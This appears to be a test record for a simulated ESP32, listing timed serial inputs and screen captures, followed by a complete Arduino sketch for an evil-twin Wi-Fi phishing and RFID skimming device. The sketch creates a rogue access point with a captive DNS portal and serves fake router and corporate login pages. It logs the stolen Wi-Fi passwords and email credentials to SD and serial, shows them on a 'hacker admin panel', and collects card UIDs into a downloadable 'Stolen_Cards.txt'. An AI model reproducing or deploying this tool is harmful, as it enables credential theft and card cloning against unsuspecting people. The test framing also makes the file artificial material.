
A sketch run on a simulated ESP32. On the bench: the last lines printed to the serial monitor. The test bench sets the inputs (shaded band). Storage starts empty.

Above: at 1.3 s.
1.4 s: "CMD:EVIL:\n" received over the second serial link
At 2.6 s:

2.9 s: "CMD:EVIL_EMAIL:\n" received over the second serial link
At 3.7 s:

4.4 s: "CMD:RFID\n" received over the second serial link
At 4.9 s:

5.9 s: RFID card 5E 7A 19 C4 held to the reader
At 6.9 s:

7.4 s: "STOP\n" received over the second serial link
At 7.8 s:

8.9 s: "1\n" received over the second serial link
At 9.5 s:


Measured:
- after the input at 1.4 s, the serial monitor: prints a new line at once (image 1)
- after the input at 2.9 s, the serial monitor: prints a new line at once (image 2)
- after the input at 4.4 s, the serial monitor: prints a new line at once (image 3)
- after the input at 5.9 s, the serial monitor: prints a new line at once (image 4)
- after the input at 7.4 s, the serial monitor: prints a new line at once (image 5)
- after the input at 8.9 s, the serial monitor: prints a new line at once (image 6)

The sketch:

32S_Main.ino
```cpp
/* PROJECT: TRAP - ESP32-WROOM-32S
  MISSION: Evil Twin + Web Downloadable RFID Skimmer
*/

#include <WiFi.h>
#include <WebServer.h>
#include <DNSServer.h>
#include <SD.h>
#include <SPI.h>
#include <MFRC522.h>
#include "soc/soc.h"
#include "soc/rtc_cntl_reg.h"

// --- PIN DEFINITIONS ---
#define RX_PIN 33
#define TX_PIN 32
#define SD_CS_PIN 5
#define RFID_CS_PIN 21
#define RFID_RST_PIN 22
#define SCK_PIN 18
#define MISO_PIN 19
#define MOSI_PIN 23

MFRC522 mfrc522(RFID_CS_PIN, RFID_RST_PIN);

WebServer server(80);
DNSServer dnsServer;

bool isRunning = false;
bool skipWiFiPass = false;
bool isRfidScanning = false;

// --- MEMORY (RAM) VARIABLES ---
String webLogs = "--- HUNT STARTED ---\n";
String rfidLogs = "--- LEAKED CARD NUMBERS ---\n";

// HELPER FUNCTION: SAVE TO SD CARD (Does not lock the system even if it fails)
void LogToSD(String logData) {
    Serial.println("YAKALANDI: " + logData);
    File file = SD.open("/captured.txt", FILE_APPEND);
    if (file) {
        file.println(logData);
        file.close();
    }
}

// ==========================================
// 1. HTML: WIFI PASS
// ==========================================
const char WIFI_PHISH_HTML[] PROGMEM = R"=====(
<!DOCTYPE html>
<html lang="tr">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Ağ Yönetim Paneli</title>
<style>
    body { margin: 0; padding: 0; font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; background-color: #f4f7f6; color: #333; }
    .header { background-color: #005bb5; color: white; padding: 20px; text-align: center; font-size: 22px; font-weight: bold; letter-spacing: 1px; box-shadow: 0 2px 4px rgba(0,0,0,0.1); }
    .container { max-width: 400px; margin: 40px auto; background: white; padding: 40px 30px; border-radius: 8px; box-shadow: 0 4px 15px rgba(0,0,0,0.05); text-align: center; }
    .warning-icon { font-size: 48px; color: #e67e22; margin-bottom: 10px; }
    h2 { font-size: 20px; margin-bottom: 15px; color: #2c3e50; }
    p { font-size: 14px; color: #666; margin-bottom: 30px; line-height: 1.6; }
    .input-group { text-align: left; margin-bottom: 25px; }
    .input-group label { display: block; font-size: 13px; color: #555; margin-bottom: 8px; font-weight: bold; }
    .input-group input { width: 100%; padding: 12px; border: 1px solid #ccc; border-radius: 4px; box-sizing: border-box; font-size: 15px; transition: border-color 0.3s; }
    .input-group input:focus { border-color: #005bb5; outline: none; box-shadow: 0 0 5px rgba(0,91,181,0.2); }
    .btn { background-color: #005bb5; color: white; border: none; padding: 14px; width: 100%; border-radius: 4px; font-size: 15px; font-weight: bold; cursor: pointer; transition: background 0.3s; }
    .btn:hover { background-color: #004494; }
    .footer { text-align: center; margin-top: 30px; font-size: 12px; color: #aaa; }
</style>
</head>
<body>
    <div class="header">Advanced Network Configuration</div>
    <div class="container">
        <div class="warning-icon">⚠</div>
        <h2>Security Verification Required</h2>
        <p>our router firmware has been updated or an unusual device has been detected on your network. To continue internet access, you must verify your current wireless network password.</p>
        <form action="/validate" method="POST">
            <div class="input-group">
                <label for=Wireless Network (Wi-Fi) Password</label>
                <input type="password" id="wifi_pass" name="wifi_pass" placeholder="Enter your password" required>
            </div>
            <button type="submit" class="btn">Verify and Connect to Network</button>
        </form>
    </div>
    <div class="footer">© 2026 Router Management System. All Rights Reserved.</div>
</body>
</html>
)=====";

// ==========================================
// 2. HTML: EMAIL LOGIN
// ==========================================
const char EMAIL_PHISH_HTML[] PROGMEM = R"=====(
<!DOCTYPE html>
<html lang="tr">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Hesabınızda Oturum Açın</title>
<style>
    body { margin: 0; padding: 0; font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; background-color: #f2f6fa; display: flex; justify-content: center; align-items: center; height: 100vh; }
    .login-box { background: white; width: 100%; max-width: 380px; padding: 40px; border-radius: 4px; box-shadow: 0 2px 10px rgba(0,0,0,0.1); box-sizing: border-box; }
    .logo { font-size: 22px; font-weight: 600; color: #5e5e5e; margin-bottom: 25px; display: flex; align-items: center; }
    .logo span { color: #0067b8; font-weight: bold; margin-right: 8px; font-size: 26px; }
    h2 { margin: 0 0 15px 0; font-size: 24px; color: #1b1b1b; font-weight: 600; }
    p { font-size: 14px; color: #1b1b1b; margin-bottom: 30px; line-height: 1.4; }
    input { width: 100%; padding: 10px 0; margin-bottom: 25px; border: none; border-bottom: 1px solid #757575; font-size: 15px; outline: none; transition: border-color 0.2s; background: transparent; }
    input:focus { border-bottom: 2px solid #0067b8; margin-bottom: 24px; }
    input::placeholder { color: #666; font-size: 15px; }
    .btn-container { display: flex; justify-content: flex-end; }
    button { background-color: #0067b8; color: white; border: none; padding: 10px 35px; font-size: 15px; cursor: pointer; transition: background 0.2s; font-weight: 600; }
    button:hover { background-color: #005da6; }
    .footer-links { font-size: 13px; color: #0067b8; text-align: left; margin-top: 20px; cursor: pointer; }
    .footer-links:hover { text-decoration: underline; }
</style>
</head>
<body>
    <div class="login-box">
        <div class="logo"><span>❖</span> Corporate Portal</div>
        <h2>Oturum Açın</h2>
        <p>Please log in with your registered email address to complete network access.</p>
        <form action="/login" method="POST">
            <input type="email" name="email" placeholder=""Email, phone, or Zoom" required>
            <input type="password" name="pass" placeholder="Parola" required>
            <div class="btn-container">
                <button type="submit">Next</button>
            </div>
        </form>
        <div class="footer-links">Can't access your account?</div>
    </div>
</body>
</html>
)=====";

// ==========================================
// ROUTE AND LOGGING SETTINGS
// ==========================================
void SetupRoutes() {
  server.onNotFound([]() {
      if(skipWiFiPass) server.send(200, "text/html", EMAIL_PHISH_HTML);
      else server.send(200, "text/html", WIFI_PHISH_HTML);
  });

  server.on("/validate", HTTP_POST, []() {
    String pass = server.arg("wifi_pass");
    Serial2.println("LOG:WIFI_PASS:" + pass);
    LogToSD("WIFI PASS: " + pass);
    webLogs += "[WIFI] PASS: " + pass + "\n";
    server.send(200, "text/html", EMAIL_PHISH_HTML);
  });

  server.on("/login", HTTP_POST, []() {
    String mail = server.arg("email"); String pass = server.arg("pass");
    Serial2.println("LOG:LOGIN:" + mail + "|" + pass);
    LogToSD("EMAIL: " + mail + " | PASS: " + pass);
    webLogs += "[EMAIL] " + mail + " | " + pass + "\n";
    server.send(200, "text/html", "<h1>Connection Successful</h1><script>setTimeout(function(){window.location.href='http://google.com';},1000);</script>");
  });

  server.on("/admin", []() {
      if (!server.authenticate("admin", "1234")) return server.requestAuthentication();
      String html = "<html><head><meta name='viewport' content='width=device-width, initial-scale=1'>";
      html += "<style>body{background:#111;color:#0f0;font-family:monospace;padding:20px}textarea{width:100%;height:400px;background:#222;color:#fff;border:1px solid #444;padding:10px}button{padding:10px 20px;background:#c00;color:white;border:none;cursor:pointer;margin-top:10px}</style>";
      html += "<meta http-equiv='refresh' content='5'>";
      html += "</head><body>";
      html += "<h1>[ HACKER ADMIN PANEL ]</h1>";
      html += "<textarea readonly>" + webLogs + "</textarea>";
      html += "<br><br><a href='/clear'><button>Connection Successful</button></a>";
      html += "</body></html>";
      server.send(200, "text/html", html);
  });

  server.on("/clear", []() {
      if (!server.authenticate("admin", "1234")) return server.requestAuthentication();
      webLogs = "--- LOGS CLEARED ---\n";
      server.sendHeader("Location", "/admin");
      server.send(302, "text/plain", "");
  });

  //  wifi download
  server.on("/rfid", HTTP_GET, []() {
      server.sendHeader("Content-Disposition", "attachment; filename=\"Stolen_Cards.txt\"");
      server.send(200, "text/plain", rfidLogs);
  });

  server.begin();
}

// ==========================================
// SETUP
// ==========================================
void setup() {
  WRITE_PERI_REG(RTC_CNTL_BROWN_OUT_REG, 0);
  Serial.begin(115200);
  Serial2.begin(9600, SERIAL_8N1, RX_PIN, TX_PIN);

  pinMode(RFID_CS_PIN, OUTPUT); digitalWrite(RFID_CS_PIN, HIGH);
  pinMode(SD_CS_PIN, OUTPUT); digitalWrite(SD_CS_PIN, HIGH);

  SPI.begin(SCK_PIN, MISO_PIN, MOSI_PIN);

  Serial.println("Testing SD Card...");
  SD.begin(SD_CS_PIN);

  WiFi.disconnect(true);
  delay(100);
  WiFi.mode(WIFI_OFF);

  Serial.println("SYSTEM READY, AWAITING COMMAND");
}

// ==========================================
// LOOP
// ==========================================
void loop() {
  if(Serial2.available()) {
    String cmd = Serial2.readStringUntil('\n');
    cmd.trim();

    Serial.println("INCOMING COMMAND: " + cmd);

    if(cmd.startsWith("CMD:EVIL:")) {
      String ssidName = cmd.substring(9);
      skipWiFiPass = false;
      WiFi.mode(WIFI_AP);
      if(WiFi.softAP(ssidName.c_str())) {
          dnsServer.start(53, "*", WiFi.softAPIP());
          SetupRoutes();
          isRunning = true;
      }
    }
    else if(cmd.startsWith("CMD:EVIL_EMAIL:")) {
      String ssidName = cmd.substring(15);
      skipWiFiPass = true;
      WiFi.mode(WIFI_AP);
      if(WiFi.softAP(ssidName.c_str())) {
          dnsServer.start(53, "*", WiFi.softAPIP());
          SetupRoutes();
          isRunning = true;
      }
    }
    // --- RFID COMMAND ---
    else if(cmd == "CMD:RFID") {
      Serial.println("STARTING RFID SKIMMER");

      WiFi.mode(WIFI_AP);
      WiFi.softAP("RFID_VAULT");
      SetupRoutes();
      isRunning = true;

      rfidLogs = "--- LEAKED CARD NUMBERS ---\n";

      mfrc522.PCD_Init();
      isRfidScanning = true;
    }
    else if(cmd == "STOP") {
      Serial.println("ATTACK STOPPED");
      isRunning = false;
      isRfidScanning = false;
      server.stop();
      dnsServer.stop();
      WiFi.softAPdisconnect(true);
      WiFi.mode(WIFI_OFF);
    }
  }

  // Keep the web server constantly active (Required for connection and download)
  if(isRunning) {
    dnsServer.processNextRequest();
    server.handleClient();
  }

  // RFID Reading Task
  if(isRfidScanning) {
    if (mfrc522.PICC_IsNewCardPresent() && mfrc522.PICC_ReadCardSerial()) {

        String uidString = "";
        for (byte i = 0; i < mfrc522.uid.size; i++) {
            if (mfrc522.uid.uidByte[i] < 0x10) uidString += "0";
            uidString += String(mfrc522.uid.uidByte[i], HEX);
        }
        uidString.toUpperCase();

        Serial.println("CARD FOUND: " + uidString);

        Serial2.println("LOG:RFID:" + uidString);

        LogToSD("RFID_UID: " + uidString);

        rfidLogs += "KART ID: " + uidString + "\n";

        webLogs += "[RFID] CARD: " + uidString + "\n";

        mfrc522.PICC_HaltA();
        delay(1000);
    }
  }
}
```
